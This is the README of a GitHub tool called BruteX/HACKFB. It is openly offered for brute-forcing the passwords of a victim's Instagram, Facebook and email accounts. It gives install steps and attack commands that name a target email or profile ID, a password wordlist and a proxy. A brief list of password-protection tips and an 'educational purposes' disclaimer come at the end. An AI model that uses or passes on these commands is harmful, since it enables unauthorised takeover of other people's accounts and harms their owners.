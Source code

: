 # BruteX
BruteX is A bruteForce attacking tool

## Whats New
+ ```Fixed tor error```
+ ```Added update feature```
+ ```Enhanced Features```

### Features Of BruteX:
+ You can bruteforce attack on your victim's Instagram, Facebook and Email ID with 100 password/second you can add your own custom password list and this tool also has password list, so If you don't have your own password list then it's ok don't worry you can use auto attack function (In this function you don't need your own password list).

## Attack Type
#### BruteForce Attack

+ Auto Attack
+ Manual Attack

#### python or python3 supporting

### Tested on:
+ Termux
+ ~Linux~
### Available for:
+ Termux
+ ~Linux~

### About Next Update
+ BruteX will available for all operating system in next update.


# HACKFB UPDATE

***
  - SCRIPT: **HACKFB**
  **Brute Force Attack On Facebook Accounts**
***

    - **Brute Force On Facebook Account Without proxy**:
     
     * **Command**: python faceboom.py -t rafi@gmail.com -w wlist.txt
   
   - **Brute Force On Facebook Account With Proxy**:
   
    * **Command**: python HACKFB.py -t rafi@gmail.com -w wlist.txt -p 144.217.101.245:3129          

   - **Get Target Facebook Profile ID**:
   
    * **Command**: python HACKFB.py -g https://www.facebook.com/zuck

***

# For Install:

```
  rm -rf BruteX

  git clone https://github.com/MR-ZIHAD/BruteX.git
  
  cd BruteX

  chmod 777 HACKFB

  ./HACKFB -t 100006256286582 -w /sdcard/access.txt

```

***

# Supported Platforms:
- [x] Windows
- [x] Linux
- [x] Android~**Termux**
- [x] MacOs
- [x] **any Os has python(2.x, 3.x) with required modules**


# Protect yourself from this attack:
  * Use Strong Password which contains {letters(lower,upper),tokens,numbers} make it longest as possible, at least 10 letters
  * don't use your basic information in the password for example don't use your name or birthday\
        because the hacker can do a information gathering attack and get this information easily\
        then he will generate a wordlist based on this info.
  * Use 2F Authentication.
  
# Warning:
  * this script is only for educational purposes
  * i am not responsible for your actions.

# That's All :)
   * This Script Coded By ZIHAD HOSSAIN RAFI
   * Thanks For Usage
   * Have A Nice Day...GoodBye :)


 
